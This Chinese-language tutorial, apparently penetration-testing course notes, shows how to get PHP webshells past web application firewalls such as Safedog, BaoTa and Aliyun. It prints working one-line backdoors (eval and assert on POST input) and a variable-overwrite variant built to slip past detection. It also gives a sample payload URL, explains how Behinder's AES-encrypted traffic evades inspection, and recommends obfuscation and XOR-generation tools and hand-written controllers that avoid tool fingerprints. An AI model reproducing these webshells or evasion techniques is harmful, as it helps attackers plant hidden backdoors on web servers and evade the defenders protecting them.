



## 思维导图


#### Safedog 代码层手写及脚本绕过

变量覆盖，加密混淆，异或生成

#### BT Aliyun 代码层手写及脚本绕过

编码解码(变量覆盖，加密混淆，异或生成)
ASP,PHP,ASPX,JSP,PY 等后门免杀同理


### 一句话后门的原理：

```php
<?php@eval($_POST['password']) ?>
```

- @再php中含义为后面如果执行错误不会报错
- eval（）函数表示括号里的语句全做代码执行
- $_POST['password']`表示从页面中以post方式获取变量password的值。

### 菜刀、蚂剑、冰蝎工具的基本原理

把一些具体执行语句集成化（各种各样在功能语句都帮你写好了），你直接连接执行就可！

### 菜刀，蚁剑，冰蝎优缺点

菜刀：未更新状态，无插件，单向加密传输
蚁剑：更新状态，有插件，拓展性强，单向加密传输
冰蝎：更新状态，未知插件，偏向于后渗透，双向加密传输

冰蝎加密原理

冰蝎"在服务端支持open_ssl时，使用AES加密算法，密钥长度16位，也可称为AES-16。此在软件及硬件(英特尔处理器的AES指令集包含六条指令)上都能快速地加解密，内存需求低，非常适合流量加密。

加密流程


首先客户端以Get形式发起带密码的请求。

服务端产生随机密钥，将密钥写入Session并将密钥返回客户端。

客户端获取密钥后，将payload用AES算法加密，用POST形式发送请求。

服务端收到请求，用Session中的密钥解密请求的Body部分，之后执行Payload，将直接结果返回到客户端。

客户端获取返回结果，显示到UI界面上。


### 变量覆盖

#### 原型后门

```
<?php assert($_POST['chopper'])?>
```



安全狗轻而易举就查到木马


#### 变量覆盖


```php
<?php
$a = $_GET['x'];
$$a = $_GET['y'];
$b($_POST['z']);

//?x=b&y=assert
//$a = b
//$$a ->$b 变量引用
//$b= assert
//$b($_POST['z']);--->assert($_POST['z'])

?>
```

把敏感字符传递的参数中，waf能够确定你的代码，但是确定不了你传递的参数值

safedog有变量追踪

简单的拆分，直接报马


#### 原型效果


#### 变量覆盖效果（本地safedog测试）


#### 变量覆盖效果（aliyun+safedog +bt 测试）

被BT拦截


传入值触发防护规则


加密绕过即可


稳定、可靠


### 加密混淆

#### enphp工具

运行

```
php.exe code_test.php
```





#### 网络接口加密（更稳）


依旧很稳


### 异或生成

#### webshell-venom-master工具

直接运行程序，即可生成webshell


免杀


很稳

```txt
http://test.xiaodi8.com/x.php?id=x
mr6=cGhwaW5mbygpOw==
```


### 行为造轮子

waf基本都有菜刀、蚁剑、冰蝎的指纹，当你使用他们的时候，一些危害行为会被拦截！

要想不被识别拦截，只能自己造轮子！

自己写数据包，不会有那些指纹特征，就能实现功能！

#### 扫描目录



#### 写入文件


#### 手写手写新型控制器


### 演示案例

Safedog-手写覆盖变异简易代码绕过-代码层

Safedog-基于接口类加密混淆代码绕过-代码层

BT,Aliyun-基于覆盖加密变异下编码解码绕过-代码层

Safedog-基于工具功能数据包指纹修改变异绕过-行为层

Safedog,BT,Aliyun-基于冰蝎新型控制器绕过全面测试-行为层

Safedog,BT,Aliyun-基于手写新型控制器绕过全面测试-行为层  

## 涉及资源：

https://github.com/djunny/enphp
https://www.phpjiami.com/phpjiami.html
https://github.com/rebeyond/Behinder/releases/
https://github.com/AntSwordProject/antSword/releases
https://pan.baidu.com/s/1msqO2kps139NNP9ZEIAVHw 提取码：
xiao


